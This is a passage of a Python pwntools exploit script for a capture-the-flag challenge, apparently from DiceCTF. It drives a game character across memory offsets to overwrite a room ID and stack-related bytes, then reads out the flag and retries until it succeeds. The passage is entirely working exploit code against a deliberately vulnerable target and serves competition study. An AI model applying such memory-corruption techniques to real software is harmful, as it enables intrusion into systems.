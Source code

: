 ```python
    go(PUT + GET)       # address 0x..5125
    go(DOWN*6)          # 5175 (room ID + 1)
    go(LEFT + GET)     # 5174 = 0 (room ID = 0)
    # now we're suddenly at 0x...0eb and we gotta get back to the room...
    go(RIGHT + RIGHT + DOWN*(0x16 - 0xe) + RIGHT*(0x174 - 0x16d))
    # we're at 0x174
    # we need to pick up 1 coins, i.e. a 0x5 byte
    # there's one at 0x1b4
    go(LEFT + DOWN*(0x1b-0x17) + RIGHT + GET + LEFT + UP*(0x1b-0x17))

    go(RIGHT + RIGHT)
    go(PUT)

    try:
        d = p.recvuntil(b"2304", timeout=2)
    except EOFError:
        print("CRASH")
        return False

    if len(d) == 0:
        print("TIMEOUT")
        return False

    print("GOOD")
    p.clean(1)

    # room index is now 0x900
    # on_tile = rooms + 0x4d100
    # SP = 0x...2c0 _ifd = 2c0 _echo = 0x5cc
    # on_tile = 0x...275
    go(RIGHT*2)
    go(DOWN * (0xb-0x7))  # 0xb7
    #go(RIGHT + GET)

    # go down + right to 0x5cc
    go(DOWN*(0x5c-0x2b) + RIGHT*(0x5cc-0x5c7))
    go(PUT + LEFT*(0x5cc-0x5c7)) # 5cc = 1; 5c7
    go(DOWN*(0x63 - 0x5c) + RIGHT) # GET 5 from 0x638
    go(GET + LEFT + UP*(0x63 - 0x2c)) # go to 0x2c7
    go(LEFT * 7) # 0x2c0

    go(PUT)

    flag = p.clean(timeout=5)
    if len(flag) > 0:
        print(flag)
        if b"dice" in flag:
            print("FLAG!!!")
        return True
    else:
        if args.REMOTE:
            p.close()
        else:
            p.kill()
        return False
    
    # p.interactive()

if __name__ == "__main__":
    while not main():
        pass
```
